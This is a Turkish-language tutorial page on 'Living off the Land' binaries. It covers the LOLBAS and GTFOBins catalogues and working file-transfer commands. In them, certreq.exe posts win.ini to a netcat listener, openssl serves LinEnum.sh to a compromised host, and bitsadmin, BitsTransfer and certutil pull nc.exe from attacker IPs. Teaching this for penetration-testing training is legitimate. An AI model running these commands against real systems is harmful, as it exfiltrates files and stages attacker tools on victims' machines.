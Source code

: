 ```yaml
---
icon: material/circle-small
search:
  boost: 2
---
```


# Living off The Land

LOLBins (Living Off The Land Binaries) terimi, bir saldırganın orijinal amacının ötesinde eylemler gerçekleştirmek için kullanabileceği ikili dosyaları ifade etmek için kullanılır. Şu anda LOLBins hakkında bilgi toplayan iki web sitesi bulunmaktadır:

1. [LOLBAS](https://lolbas-project.github.io)
2. [GTFOBins](https://gtfobins.github.io/)

## Using the LOLBAS and GTFOBins Project

### LOLBAS

LOLBAS (Living Off The Land Binaries, Scripts and Libraries) sitesinde indirme ve yükleme işlevlerini aramak için `/download` veya `/upload` filtrelerini kullanabiliriz.

Örnek olarak [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) aracını ele alalım. Netcat aracını kullanarak gelen trafiği, saldırı makinemizdeki bir port üzerinden dinlememiz ve ardından bir dosya yüklemek için `#!batch CertReq.exe` aracını çalıştırmamız gerekiyor:

```batch
certreq.exe -Post -config http://192.168.49.128 c:\windows\win.ini
```

Bu, dosyayı Netcat oturumumuza gönderecektir:

```bash
sudo nc -lvnp 80
```

```text title="Output"
listening on [any] 80 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Eğer `#!batch CertReq.exe` aracını çalıştırırken hata alırsanız kullandığınız sürüm POST parametresini içermiyor olabilir. Güncel sürümü [buradan](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) indirip tekrar deneyebilirsiniz.

### GTFOBins

LOLBAS sitesinde indirme ve yükleme işlevlerini aramak için `+file download` veya `+file upload` filtrelerini kullanabiliriz.

Örnek olarak [OpenSSL](https://www.openssl.org/) aracını ele alalım. Öncelikle bir sertifika oluşturmamız gerekiyor:

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Ardından sunucuyu başlatıyoruz:

```bash
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Artık ele geçirilmiş bilgisayardan dosyayı indirebiliriz:

```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land Tools

### Bitsadmin Download function

BITS ([Background Intelligent Transfer Service](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)), HTTP sitelerinden ve SMB paylaşımlarından dosya indirmek için kullanılabilir. Kullanıcının ön plandaki çalışması üzerindeki etkiyi en aza indirmek için bilgisayar ve ağ kullanımını akıllıca kontrol eder:

```batch
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell, BITS ile etkileşime olanak tanır, dosya indirme ve yükleme işlemlerine olanak tanır, kimlik bilgilerini destekler ve belirtilen proxy sunucularını kullanabilir:

```powershell
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### Certutil

Certutil aracı dosyaları indirmek için kullanılabilir. Tüm Windows sürümlerinde mevcuttur ve Windows için popüler bir dosya aktarım tekniğidir. Ancak AMSI (Antimalware Scan Interface), bu araçla yapılan kötü niyetli kullanımları algılamaktadır:

```batch
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
